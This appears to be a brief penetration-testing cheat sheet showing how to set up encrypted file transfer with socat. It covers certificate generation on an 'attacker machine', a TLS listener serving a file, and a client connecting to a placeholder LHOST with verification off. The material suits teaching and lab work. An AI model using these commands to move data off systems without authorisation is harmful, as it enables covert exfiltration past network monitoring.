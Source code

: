 ## socat: encrypted file transfer
### step #1: on attacker machine, generate a create a key and a certificate associated with it.
```bash
openssl req -newkey rsa:2048 -nodes -keyout socat.key -x509 -days 1000 -out socat.crt
```
### step #2: on attacker machine,create a pem file from the key and crt files
```bash
cat socat.key socat.crt > socat.pem
```
### step #3: on machine hosting the file:
```bash
socat -d -d OPENSSL-LISTEN:<LPORT>,cert=socat.pem,verify=0,reuseaddr,fork file:file.txt
```
## #step #4: on machine receiving the file:
```bash
socat OPENSSL:<LHOST>:<LPORT>,verify=0 file:file.txt,create
```